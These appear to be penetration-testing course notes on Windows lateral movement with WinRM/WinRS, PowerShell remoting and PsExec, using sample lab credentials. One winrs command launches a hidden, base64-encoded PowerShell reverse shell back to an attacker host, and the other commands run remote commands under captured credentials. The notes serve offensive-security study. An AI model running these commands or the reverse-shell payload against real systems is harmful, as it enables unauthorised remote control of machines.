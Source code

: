 
##### WinRM & WinRS

WinRM runs on port 5986 and 5985. It exchanges XML messages over http and https. We can interact with this using inbuilt `winrs` (windows remote shell).

For WinRS to work the domain user needs to be a part of administrators or remote management users group `on the target host`.

example:
```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

will execute on the target and tell us who we are logged in as and the hostname of the machine.

We could use this for a reverse shell using:
```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```


We can also utilize this method with PowerShell - similar to how we did previously with wmic:
```
$username = 'jen';

$password = 'Nexus123!';

$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;

$credential = New-Object System.Management.Automation.PSCredential $username, 
$secureString;

New-PSSession -ComputerName 192.168.50.73 -Credential $credential

Enter-PSSession 1
```

This will give us a session on the remote host to interact with.


### PsExec

PsExec was created to replace telnet like applications to provide execution of processes on other systems through an interactive console.

For PsExec to work:
- user authenticating against target must be part of the local Administrators group
- ADMIN$ share must be available - default on modern systems
- File and Printer sharing has to be turned on - default on modern systems

`PsExec isnt install be default on windows so we will need to transfer it to a machine we have access to`

example usage using PsExec to execute CMD on a remote host
```
./PsExec64.exe -i  \\Target_host_name -u <domain>\<user> -p <password> cmd
```
